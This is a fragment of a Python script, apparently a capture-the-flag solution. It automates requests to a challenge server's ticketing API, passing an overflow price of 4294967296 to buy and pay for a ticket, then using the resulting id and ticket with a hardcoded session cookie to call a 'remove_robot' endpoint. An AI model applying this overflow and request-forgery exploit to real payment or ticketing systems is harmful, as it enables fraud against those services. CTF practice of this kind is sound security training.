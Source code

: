 ```
    print(session.cookies)
    #print("Status code:   %i" % response.status_code)

    #print("Response body: %s" % response.content)

    paramsGet = `{`"ticket_price":"4294967296"`}`
    headers = `{`"Accept":"application/json","User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0","Referer":"http://117.51.147.155:5050/index.html","Connection":"close","Accept-Language":"en-US,en;q=0.5","Accept-Encoding":"gzip, deflate"`}`
    response = session.get("http://117.51.147.155:5050/ctf/api/buy_ticket", params=paramsGet, headers=headers, proxies=proxies)

    time.sleep(0.5)
    #print("Status code:   %i" % response.status_code)
    #print("Response body: %s" % response.content)

    headers = `{`"Accept":"application/json","User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0","Referer":"http://117.51.147.155:5050/index.html","Connection":"close","Accept-Language":"en-US,en;q=0.5","Accept-Encoding":"gzip, deflate"`}`
    response = session.get("http://117.51.147.155:5050/ctf/api/search_bill_info", headers=headers, proxies=proxies)
    # print(response.text)
    bill_id = json.loads(response.text)['data'][0]["bill_id"]

    time.sleep(0.5)
    #print("Status code:   %i" % response.status_code)
    #print("Response body: %s" % response.content)

    paramsGet = `{`"bill_id":bill_id`}`
    headers = `{`"Accept":"application/json","User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0","Referer":"http://117.51.147.155:5050/index.html","Connection":"close","Accept-Language":"en-US,en;q=0.5","Accept-Encoding":"gzip, deflate"`}`
    response = session.get("http://117.51.147.155:5050/ctf/api/pay_ticket", params=paramsGet, headers=headers, proxies=proxies)
    #print("Status code:   %i" % response.status_code)
    #print("Response body: %s" % response.content)
    time.sleep(0.5)
    headers = `{`"Accept":"application/json","Cache-Control":"max-age=0","User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0","Referer":"http://117.51.147.155:5050/index.html","Connection":"close","Accept-Language":"en-US,en;q=0.5","Accept-Encoding":"gzip, deflate"`}`
    response = session.get("http://117.51.147.155:5050/ctf/api/search_ticket", headers=headers, proxies=proxies)

    #print("Status code:   %i" % response.status_code)
    #print("Response body: %s" % response.content)
    #print(response.text)
    id = json.loads(response.text)['data'][0]['id']
    ticket = json.loads(response.text)['data'][0]['ticket']
    print(id, ticket)
    return id,ticket

def kill(id, ticket):
    time.sleep(0.5)
    session = requests.Session()

    paramsGet = `{`"ticket":ticket,"id":id`}`
    headers = `{`"Accept":"application/json","User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0","Referer":"http://117.51.147.155:5050/index.html","Connection":"close","Accept-Language":"en-US,en;q=0.5","Accept-Encoding":"gzip, deflate"`}`
    cookies = `{`"REVEL_SESSION":"3b2bacbee8fb18e1b1457171b422999d","user_name":"cl0und"`}`
    response = session.get("http://117.51.147.155:5050/ctf/api/remove_robot", params=paramsGet, headers=headers, cookies=cookies)
```